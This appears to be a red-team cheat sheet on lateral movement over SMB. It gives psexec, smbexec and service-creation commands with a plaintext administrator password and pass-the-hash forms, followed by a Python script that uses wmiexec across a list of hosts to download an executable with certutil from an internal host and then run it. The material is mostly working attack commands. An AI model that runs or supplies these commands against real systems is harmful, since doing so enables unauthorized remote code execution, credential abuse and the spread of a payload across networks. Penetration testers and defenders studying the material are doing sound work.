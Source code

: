 [![p9SxpCR.png](https://s1.ax1x.com/2023/04/15/p9SxpCR.png)](https://imgse.com/i/p9SxpCR)

[![p9Sxdx0.png](https://s1.ax1x.com/2023/04/15/p9Sxdx0.png)](https://imgse.com/i/p9Sxdx0)

#### SMB

~~~
// 1.psexec
psexec64 \\192.168.52.138 -u administrator -p A@2019gaokaowar -s cmd
// impacket套件内的
psexec -hashes:xxxxxxxxxxxxxxxxxx ./administrator@192.168.52.138
~~~

[![p9Szjh9.png](https://s1.ax1x.com/2023/04/15/p9Szjh9.png)](https://imgse.com/i/p9Szjh9)

~~~
// 2.smbexec
smbexec ./administrator:A@2019gaokaowar@192.168.52.138
smbexec god/administrator:A@2019gaokaowar@192.168.52.138

smbexec -hashes: xxxxxxxxxxxxxxxxxxx ./administrator@192.168.52.138
smbexec -hashes: xxxxxxxxxxxxxxxxxxx god/administrator@192.168.52.138

// 3.services（单执行）
services -hashes : xxxxxxxxxxxxxxxxxxxxx ./administrator:@192.168.52.138 create -name shell -display shellexec -path c:windows\system32\shell.exe
~~~

python脚本

~~~python
import os

ips=['192.168.3.21','192.168.3.25','192.168.3.29','192.168.3.28','192.168.3.30','192.168.3.32']

def down():
    for ip in ips:
        wmi_exec='D:\Myproject\\venv\Scripts\python.exe D:\Myproject\impacket-master\examples\\wmiexec.py ./administrator:admin!@#45@%s "cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/4455.exe c:/4455.exe"'%ip
        print(wmi_exec)
        os.system(wmi_exec)

def zx():
    for ip in ips:
        wmi_exec='D:\Myproject\\venv\Scripts\python.exe D:\Myproject\impacket-master\examples\\wmiexec.py ./administrator:admin!@#45@%s "c:/4455.exe"'%ip
        print(wmi_exec)
        os.system(wmi_exec)

if __name__ == '__main__':
    down()
    zx()

~~~
